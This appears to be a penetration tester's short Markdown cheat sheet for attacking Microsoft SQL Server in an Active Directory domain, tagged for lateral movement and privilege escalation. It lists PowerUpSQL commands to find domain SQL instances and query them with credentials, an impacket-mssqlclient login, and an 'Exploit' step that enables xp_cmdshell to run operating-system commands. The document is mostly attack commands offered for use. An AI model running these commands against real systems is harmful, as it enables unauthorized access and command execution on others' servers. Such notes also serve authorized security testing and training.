 ```yaml
---
tags:
  - Authenticated
  - Lateral-Movement
  - Privilege-Escalation
  - AD
---
```

## Identify
---
[https://github.com/NetSPI/PowerUpSQL/wiki/PowerUpSQL-Cheat-Sheet](https://github.com/NetSPI/PowerUpSQL/wiki/PowerUpSQL-Cheat-Sheet)
```PowerShell
Import-Module .\PowerUpSQL.ps1
Get-SQLInstanceDomain
```
Connect - Windows
```PowerShell
Get-SQLQuery -Verbose -Instance "host,port" -username "domain.local\\user" -password "password" -query 'Select @@version'
```
Connect - Linux
```Bash
impacket-mssqlclient user:'pass'@<IP> -windows-auth
```
## Exploit
---
Run commands with xp_cmdshell
```Bash
SQL> enable_xp_cmdshell
xp_cmdshell whoami /priv
```